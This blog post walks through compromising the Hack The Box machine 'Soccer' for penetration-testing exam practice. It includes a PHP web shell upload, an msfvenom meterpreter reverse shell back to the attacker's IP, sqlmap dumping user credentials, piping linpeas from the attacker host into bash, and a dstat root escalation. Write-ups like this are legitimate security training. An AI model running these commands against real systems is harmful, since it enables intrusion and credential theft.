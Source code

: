 ```yaml
---
layout: post
title: "Soccer"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate all the ports with rustcan and nmap:

```bash
rustscan -a 10.129.126.18

nmap -sC -sV -p22,80,9091 10.129.126.185 -oA nmap/soccer

result:
port 80 nginx 1.18.0
port 22
port 9091 xmltec-xmlmail
```

Add domain soccer.htb to /etc/hosts

Let’s enumerate subdomains and subdirectories

```bash
ffuf -u http://soccer.htb -H "Host: FUZZ.soccer.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 6

gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

![image.png]({{ site.baseurl }}/assets/soccer/image.png)

In burp we look at the GET response from the server we find the version of the tiny explorer. Now let’s research some exploit. We find RCE  exploit: https://github.com/febinrev/tinyfilemanager-2.4.3-exploit

Let’s first try to login with default credentials. We search on Google default tiny manager credentials and result in admin:admin@123. We are in

We clone the exploit to our host and exploit the target:

```bash
./exploit.sh http://soccer.htb/tiny/tinyfilemanager.php admin \"admin@123\"
python3 tiny_file_manager_exploit.py http://soccer.htb/tiny/tinyfilemanager.php admin \"admin@123\"
```

The exploit doesn’t seem to be working. Let’s just do it manually. Click upload and upload phpbash.php.

```bash
Navigating to the uploads folder ([http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload](http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload)), we add phpbash.php. We visit http://soccer.htb/tiny/uploads/phpbash.php
```

We have access to user www-data

Let’s upload a reverse shell for stable connection:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.118 LPORT=443 -f raw > shell.php

#edit the file so the file start with <?php and end with ?>
```

```bash
#start metasploit for listener
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.10.14.118
set LPORT 443
run

#When we get the shell:
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Let’s start trying to find credentials in config files etc

```bash
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

We know the server uses nginx for the web server, let’s check that

```bash
In the /etc/nginx/sites-available folder we find another site:

$ ls -al
ls -al
total 16
drwxr-xr-x 2 root root 4096 Dec  1  2022 .
drwxr-xr-x 8 root root 4096 Nov 17  2022 ..
-rw-r--r-- 1 root root  442 Dec  1  2022 default
-rw-r--r-- 1 root root  332 Nov 17  2022 soc-player.htb

#and catting it out:
soc-player.soccer.htb
```

Let’s add that to /etc/hosts

Let’s enumerate that

```bash
gobuster dir -u http://soc-player.soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

There is a ticket searching function in /check let’s try to SQL inject it.

Using burp to capture the traffic when inputting a ticket number and pressing enter, the website communicates with a web socket at ws://soc-player.soccer.htb:9091. Let’s use sqlmap to test different injection techniques

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5    #asterisks tells sqlmap where to inject, risk 3 and level 5 the highest

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 --dbs

```

![image.png]({{ site.baseurl }}/assets/soccer/image%201.png)

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db --tables

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db -T accounts --columns

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db -T accounts -C email,id,password,username --dump
```

We have found a user credential

Let’s login as user player. Not much is on the website, let’s try to ssh. We are in.

## Linepeas

- in the dir where [linpeas.sh](http://linpeas.sh) is, start a python server

```bash
python3 -m http.server 1234
```

- then on the target server connect to it and pipe it to bash

```bash
curl 10.10.14.118:1234/linpeas.sh | bash
```

- Alwasy check /usr/local, or /usr/local/bin. This is where admin put binaries specifically
- also check special permssions other than sudo

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

- Now try and find config for that binary

```bash
find / 2>/dev/null | grep doas

result:
/usr/local/etc/doas.conf

cat /usr/local/etc/doas.conf

result:
permit nopass player as root cmd /usr/bin/dstat
```

Now we go to GTFObin and dstat to see how we can escalate our privilege to root

```bash
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_xxx.py

doas /usr/bin/dstat --xxx  #now we have root shell
whoami

af395ba322ed65992418eb6f9fb587a6
```